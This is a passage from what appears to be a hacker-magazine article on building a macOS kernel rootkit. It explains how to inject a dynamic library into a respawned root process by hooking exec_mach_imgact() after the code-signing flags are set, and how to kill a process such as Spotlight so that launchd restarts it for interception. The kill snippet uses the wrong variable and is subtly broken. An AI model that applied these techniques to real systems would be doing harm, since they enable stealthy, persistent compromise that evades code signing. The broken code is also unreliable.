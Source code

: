 | `---------------´ |     | `---------------´ | 
|       ...         |     |       ...         | 
`-------------------´     `-------------------´ 

There are other methods to inject the library if there is not enough space. One
that requires only 24 bytes is described at [16]. 

This approach has one interesting advantage - it is not detectable by code
signing because the injection occurs after its checks and flags are set. 
This is the code that sets the flags:
    /* 
     * Set code-signing flags if this binary is signed, or if parent has
     * requested them on exec.
     */
    if (load_result.csflags & CS_VALID) {
        imgp->ip_csflags |= load_result.csflags &
            (CS_VALID|
             CS_HARD|CS_KILL|CS_EXEC_SET_HARD|CS_EXEC_SET_KILL);
    } else {
        imgp->ip_csflags &= ~CS_VALID;
    }

    if (p->p_csflags & CS_EXEC_SET_HARD)
        imgp->ip_csflags |= CS_HARD;
    if (p->p_csflags & CS_EXEC_SET_KILL)
        imgp->ip_csflags |= CS_KILL;

The code snippet is from exec_mach_imgact() and located well before our two
candidate functions described in section 4.3. Code signing does not kill
immediately the process. The flags are verified later and a kill signal sent
if code signing was configured to exit on failure (which we can also modify
here).

The only puzzle piece left is which process should we use and how to kill it.
There are many root processes controlled by launchd so it is just a matter of
selecting one with invisible and/or small impact. Spotlight is for example a
good candidate. A code snippet to do the killing:

proc_t victim = proc_find(TARGET_PID);
if (victim != PROC_NULL)
{
    // we need to release reference count from proc_find() before kill
    proc_rele(kill);
    // now we can kill the process
    psignal(kill, SIGKILL); // or use SIGSEV coz' Spotlight crashes, right? :-)
}

When launchd respawns the process, we can intercept it at exec_mach_imgact() and
do our magic. The rest is responsibility of the dynamic library.

----[ 4.5 - The dynamic library

The dynamic library is very easy to create if you use the Xcode template (oh the
drama, hackers use Makefiles!) or just Google for a simple Makefile.
